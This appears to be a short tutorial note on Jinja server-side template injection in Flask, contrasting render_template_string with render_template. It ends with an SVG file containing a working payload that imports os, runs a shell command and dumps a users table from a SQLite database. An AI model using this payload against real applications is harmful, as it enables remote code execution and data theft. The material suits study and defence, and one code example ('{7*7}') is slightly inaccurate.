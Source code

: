 # Jinja SSTI

Basically there are two functions in flask(it uses the jinja templating engine) render_template and render_template_string which is vulnerable to SSTI, In render template string what you give is just the template itself so if you have control over this statement basically you have template injection and a payload like {{7*7}} would evaluated as python code and would return 49 into standard output.In a nutshell its something like this 
```py
render_template_string("{7*7}");
``` 
would return 49 to stdout.

Now render_template function takes in a file which already has some predefined palceholders where out value will be placed so its first argument would be a filename and this second argument would be the string that we want to give to the placeholder and example would be like this

```html
<!-- index.html -->
<h1>Welcome!</h1>
      {% if file_link %}
      <p>File uploaded: <a href="{{ file_link }}">{{ file_link }}</a></p>
      {% endif %}

```

Now the python code to render the template would be render_template("index.html",file_link=link);
this will render the corresponding file link that we give, to render_template.

render_template is also vulnerable to SSTI if the file that it is reading from has templates in it, like we should be able to control the file other than that we can't have SSTI in render_template, a vulnerable render_template() would be as follows.

```py
render_template("sol.svg")
```
and the contents of sol.svg would be the payload for template injection.

```xml
<?xml version="1.0" encoding="UTF-8"?><svg xmlns="http://www.w3.org/2000/svg" width="1" height="1"/>
<text>{{ self.__init__.__globals__.__builtins__.__import__('os').popen("python -c 'import sqlite3;con = "+'sqlite3.connect("user.db");cur = con.cursor();print(cur.execute("SELECT * FROM users").fetchone())'+"'").read() }}</text>
```
